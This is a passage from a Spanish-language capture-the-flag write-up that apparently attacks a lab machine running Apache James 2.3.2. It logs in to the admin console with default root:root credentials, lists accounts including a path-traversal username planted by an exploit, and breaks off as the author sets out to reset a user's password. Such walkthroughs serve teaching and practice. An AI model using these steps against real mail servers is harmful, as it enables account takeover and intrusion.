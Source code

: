 Nos conectamos al servidor por el puerto 4555 con las credenciales *root : root*.

```bash
❯ telnet 10.10.10.51 4555
Trying 10.10.10.51...
Connected to 10.10.10.51.
Escape character is '^]'.
JAMES Remote Administration Tool 2.3.2
Please enter your login and password
Login id:
root
Password:
root
Welcome root. HELP for a list of commands
help
Currently implemented commands:
help                                    display this help
listusers                               display existing accounts
countusers                              display the number of existing accounts
adduser [username] [password]           add a new user
verify [username]                       verify if specified user exist
deluser [username]                      delete existing user
setpassword [username] [password]       sets a user's password
setalias [user] [alias]                 locally forwards all email for 'user' to 'alias'
showalias [username]                    shows a user's current email alias
unsetalias [user]                       unsets an alias for 'user'
setforwarding [username] [emailaddress] forwards a user's email to another email address
showforwarding [username]               shows a user's current email forwarding
unsetforwarding [username]              removes a forward
user [repositoryname]                   change to another user repository
shutdown                                kills the current JVM (convenient when James is run as a daemon)
quit                                    close connection
```

Con el comando `help` vemos que tenemos algunas opciones; vamos a utilizar primero `listusers` para ver los usuarios que se encuentran en el servicio:

```bash
listusers
Existing accounts 6
user: james
user: ../../../../../../../../etc/bash_completion.d
user: thomas
user: john
user: mindy
user: mailadmin
```

El usuario `../../../../../../../../etc/bash_completion.d` fue el que nos creo el exploit. Ahora vemos que tenemos la posibilidad de cambiar la contraseña de un usuario con el comando `setpassword`; asi que para este caso vamos a tomar al usuario `mindy` y modificaremos la contraseña como `mindy123`:
